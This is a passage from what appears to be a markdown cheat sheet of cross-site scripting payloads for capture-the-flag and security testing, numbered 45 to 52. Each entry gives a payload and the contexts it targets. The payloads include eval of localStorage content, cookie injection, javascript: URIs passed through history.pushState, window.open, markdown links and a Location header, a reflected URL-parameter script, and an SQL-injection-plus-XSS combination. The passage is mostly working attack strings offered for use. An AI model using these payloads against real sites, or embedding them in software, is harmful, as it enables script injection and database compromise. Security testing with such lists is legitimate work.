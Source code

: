 45. **LocalStorage XSS**  
    ```
    <script>eval(localStorage.getItem('xss'))</script>
    ```
    - **Contexts**: JavaScript, HTML, DOM.
    - **Use Case**: Tests localStorage-based XSS.

46. **Cookie Injection**  
    ```
    document.cookie='xss=alert("CTF");path=/'
    ```
    - **Contexts**: JavaScript, DOM.
    - **Use Case**: Tests cookie-based code execution.

47. **History Manipulation**  
    ```
    history.pushState({},'','javascript:alert("CTF")')
    ```
    - **Contexts**: JavaScript, DOM.
    - **Use Case**: Tests history API manipulation.

48. **Window Open Exploit**  
    ```
    window.open('javascript:alert("CTF")')
    ```
    - **Contexts**: JavaScript, DOM.
    - **Use Case**: Tests window.open URI handling.

### Special Context Polyglots
49. **Markdown Injection**  
    ```
    [Click me](javascript:alert('CTF'))
    ```
    - **Contexts**: Markdown, JavaScript.
    - **Use Case**: Tests Markdown rendering in CMS.

50. **URL Parameter XSS**  
    ```
    https://example.com?param=<script>alert('CTF')</script>
    ```
    - **Contexts**: URL, HTML, JavaScript.
    - **Use Case**: Tests URL parameter reflections.

51. **HTTP Header Injection**  
    ```
    Location:javascript:alert('CTF')
    ```
    - **Contexts**: HTTP headers, JavaScript.
    - **Use Case**: Tests header-based redirects.

52. **SQL+XSS Combo**  
    ```
    ' OR 1=1; -- <script>alert('CTF')</script>
    ```
    - **Contexts**: SQL, HTML, JavaScript.
    - **Use Case**: Tests combined SQL and XSS injections in CTFs.
